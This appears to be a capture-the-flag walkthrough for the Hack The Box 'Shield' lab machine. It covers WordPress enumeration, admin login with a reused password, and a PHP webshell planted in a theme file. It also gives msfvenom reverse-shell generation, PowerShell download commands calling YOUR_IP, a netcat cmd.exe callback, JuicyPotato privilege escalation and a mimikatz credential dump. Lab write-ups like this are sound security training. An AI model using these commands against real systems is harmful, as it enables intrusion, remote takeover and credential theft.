 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  
![alt text](./img/shield.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/shield01.PNG?raw=true)  

![alt text](./img/shield02.PNG?raw=true)  

Looks like we have WORDPRESS, time to use WPSCAN  
![alt text](./img/shield03.PNG?raw=true)  
 
This scan will take a while, but after we receive some interesting results  
![alt text](./img/shield04.PNG?raw=true)  
  
![alt text](./img/shield05.PNG?raw=true)    

Ok, navigating through the blog we can find an interesting URL in source code:  
![alt text](./img/shield06.PNG?raw=true)    
  
When we try to access it we are redirect to another page. Maybe we can map the blog changing it value and following the redirect. Let’s try to automate this…
- for i in $(seq 1 100);do echo -n "$i - " && curl http://10.10.10.29/wordpress/?p=$i -i -s | grep Location;echo;done  
The result of this code return 100 lines, but these are the only ones with redirect  
![alt text](./img/shield07.PNG?raw=true)    

In the blog we can find an login page  
![alt text](./img/shield08.PNG?raw=true)    

We can try admin:admin, but it will fail  
![alt text](./img/shield09.PNG?raw=true)    

However the message says that the PASSWORD is incorrect for the username admin, so this username exists. We can try to use the password discovered on the other machines (archetype, oopsie, vaccine)

The credential admin:P@s5w0rd! worked!

## Exploit  
![alt text](./img/shield10.PNG?raw=true)    

From here we can go to APPEARANCE -> THEME EDITOR  
![alt text](./img/shield11.PNG?raw=true)    


The theme used is HIGHLIGHT, uselly the path for the pages in the right corner are:  
- WEBSITE/wp-content/themes/highlight/  
So for the PAGE single.php the url would be  
- 10.10.10.29/wp-content/themes/highlight/single.php

Now let’s edit the page single.php with and backdoor php code. I recommend use the one in the webshells folder:  
![alt text](./img/shield12.PNG?raw=true)    

Copy the php code and paste in the single.php, than UPDATE FILE  
![alt text](./img/shield13.PNG?raw=true)    

Now let’s access the page using the cmd param of the backdoor  
![alt text](./img/shield14.PNG?raw=true)    

Success! Now let’s try to get a shell… run the following command to generate an .exe file
- msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -o reverse.exe
- Start a http server (Ex: sudo python3 -m http.server 80)
- Start an listener on port 123

In the browser access the url:
- http://10.10.10.29/wp-content/themes/highlight/single.php?cmd=powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/reverse.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\reverse.exe')"

Now the file is in the same directory of the single.php page. To run the exe just access the follow link:
- http://10.10.10.29/wordpress/wp-content/themes/highlight/single.php?cmd=reverse.exe

You will receive an reverse shell  
![alt text](./img/shield15.PNG?raw=true)    

## Privesc  
![alt text](./img/shield20.PNG?raw=true)    
  
![alt text](./img/shield16.PNG?raw=true)    

So we have the SeImpersonatePrivilege ENABLED, [juicy potato](https://github.com/ohpe/juicy-potato) can help us with the privesc

Let’s upload nc64.exe and JuicyPotato.exe to the machine (don’t forget to set a http server)
- powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\nc64.exe')"
- powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/JuicyPotato.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\jp.exe')"  
PS: you can find the nc64.exe on internet, just google it (Tip: github)

Now we create a bat file, which will be executed by the juicypotato:
- echo start C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\nc64.exe -e cmd.exe YOUR_IP 9003 > eldruin.bat

To run the command we might need a clsid, for luck we can grab one [here](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/)

Now set up the nc listener on port 9003 and run the command:
- jp.exe -p C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\eldruin.bat -l 9003 -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}  
![alt text](./img/shield18.PNG?raw=true)    
  
![alt text](./img/shield19.PNG?raw=true)    

Now just go to C:\Users\Administrator\Desktop and get the flag

## Discoveries  
![alt text](./img/shield17.PNG?raw=true)    

Upload mimikatz to the machine and run the command:
- sekurlsa::logonpasswords  
![alt text](./img/shield21.PNG?raw=true)    

